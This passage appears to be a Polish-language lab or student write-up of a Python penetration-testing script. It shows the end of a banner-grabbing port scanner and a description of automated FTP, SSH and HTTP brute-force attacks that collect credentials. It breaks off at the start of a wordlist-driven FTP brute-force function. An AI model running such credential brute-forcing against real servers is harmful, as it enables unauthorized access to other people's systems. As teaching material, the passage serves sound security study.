              
                print(f"Host: {addr_ip} port: {port} software: {receive}")
            
            except socket.error:
                print(f"Host: {addr_ip} port: {port}")
                print("Socket error", socket.error) # exception in case port is close
            finally:
                fd.close()

Pkt. 6. W ostatniej części zautomatyzowaliśmy proces przeprowadzenia ataku brute force na porty 21 – FTP, SSH – 22 oraz HTTP - 80. Funkcja brute_force() wykorzystuje trzy podfunkcje wywoływane w zależności od atakowanego portu. Dla FTP – brute_force_FTP() wykorzystuje moduł ftplib, dla SSH – brute_force_SSH() – moduł paramiko.
Efekt działania wyświetlany jest na bieżąco, oraz zapisywany w słowniku odpowiednio FTP_credentials oraz SSH_credentials do wykorzystania w kolejnych krokach, lub do zapisania do pliku.
Dla HTTP - wykorzystywane są moduły requests oraz BeautifulSoup. Próba listingu usługi http jest wywoływana funkcją atack.print_list(adres) utworzoną w klasie AttackHttp w oddzielnym pliku. 

Plik bruteForce.py

'import paramiko
import ftplib
import time
import socket
import sys, os
from atack_http import AtackHttp


def brute_force_FTP(targetIP: str) -> None:
    """Gets ip address and tries to login to FTP server 
    users and passwords from file
    uses module ftplib.FTP()

    Args:
        targetIP (str): ip address
    Returns: FTP_cerdentials (dict) : key: targetIP, value: list of lists; each list consists of pair user and password
    """
    print(f"Calling brute_force_FTP on {targetIP}")

    # files: users and passwords operations
    
    password_file = "passwd.txt"
    users_file = "users.txt"
    users = open(users_file)
    passwds = open(password_file)
    users_list = users.read().split("\n")
    pass_list = passwds.read().split("\n")
    users.close()
    passwds.close()

    ftpServer = ftplib.FTP()
    FTP_credentials = {}
    user_pass = []
